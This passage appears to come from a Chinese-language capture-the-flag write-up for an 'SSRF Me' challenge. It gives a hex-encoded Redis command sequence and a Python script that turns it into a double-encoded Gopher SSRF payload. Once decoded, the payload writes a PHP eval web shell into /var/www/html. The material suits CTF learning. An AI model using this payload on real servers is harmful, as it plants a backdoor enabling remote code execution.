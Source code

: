 <figure><img src=".gitbook/assets/SSRF Me-2.png" alt=""><figcaption></figcaption></figure>

```
2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a
2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431330d0a2f7661722f7777772f68746d6c0d0a
2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a2431320d0a7765627368656c6c2e7068700d0a
2a330d0a24330d0a7365740d0a24330d0a2d2e2d0d0a2432360d0a3c3f70687020406576616c28245f504f53545b315d293b203f3e0d0a
2a310d0a24340d0a736176650d0a
```

通过编写脚本转为 Gopher 协议数据

```python
payload = "2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431330d0a2f7661722f7777772f68746d6c0d0a2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a2431320d0a7765627368656c6c2e7068700d0a2a330d0a24330d0a7365740d0a24330d0a2d2e2d0d0a2432360d0a3c3f70687020406576616c28245f504f53545b315d293b203f3e0d0a2a310d0a24340d0a736176650d0a"
for i in range(0, len(payload), 2):
    print("%25" + payload[i:i + 2], end="")
# %252a%2532%250d%250a%2524%2534%250d%250a%2561%2575%2574%2568%250d%250a%2524%2534%250d%250a%2572%256f%256f%2574%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%2564%2569%2572%250d%250a%2524%2531%2533%250d%250a%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2531%2530%250d%250a%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%250d%250a%2524%2531%2532%250d%250a%2577%2565%2562%2573%2568%2565%256c%256c%252e%2570%2568%2570%250d%250a%252a%2533%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%252d%252e%252d%250d%250a%2524%2532%2536%250d%250a%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%2520%253f%253e%250d%250a%252a%2531%250d%250a%2524%2534%250d%250a%2573%2561%2576%2565%250d%250a
```
